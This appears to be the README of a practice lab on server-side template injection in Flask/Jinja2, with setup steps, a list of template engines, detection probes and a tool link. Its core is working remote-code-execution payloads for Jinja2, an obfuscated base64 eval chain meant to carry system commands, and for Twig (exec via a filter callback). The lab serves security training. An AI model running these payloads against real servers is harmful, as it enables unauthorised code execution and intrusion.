 # Requirements

* apt-get install python
* apt-get install python-pip
* pip install flask
* pip install jinja2
* export FLASK_APP=ssti-lab.py
* flask run

# Original Blog:
https://portswigger.net/research/server-side-template-injection

# Web Template Engines

* FreeMarker - Java-based template engine
* Velocity - Java-based template engine
* Smarty - PHP Template engine
* Twig - PHP Template engine
* Jade - Node.js Template engine
* Jinja2 - Python/Flask Template engine

# Basic Payload

* `{{7*7}}`
* `{{7*'7'}}`

# RCE PAYLOAD - JINJA2
`{{5096754695}}{{''}}{%+set+d+=+"eval(__import__('base64').urlsafe_b64decode('X19pbXBvcnRfXygnb3MnKS5wb3BlbihfX2ltcG9ydF9fKCdiYXNlNjQnKS51cmxzYWZlX2I2NGRlY29kZSgnZFc1aGJXVWdMV0U9JykuZGVjb2RlKCkpLnJlYWQoKQ=='))"+%}{%+for+c+in+[].__class__.__base__.__subclasses__()+%}+{%+if+c.__name__+==+'catch_warnings'+%}
{%+for+b+in+c.__init__.__globals__.values()+%}+{%+if+b.__class__+==+{}.__class__+%}
{%+if+'eval'+in+b.keys()+%}
{{+b['eval'](d)+}}
{%+endif+%}+{%+endif+%}+{%+endfor+%}
{%+endif+%}+{%+endfor+%}{{''}}{{9776394213}}`

Note: Decode decode base64 string to to place system commands

# RCE PAYLOAD - TWIG
`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}`

# Automation tool for SSTI exploitation:
[TPLMap](https://github.com/epinna/tplmap)
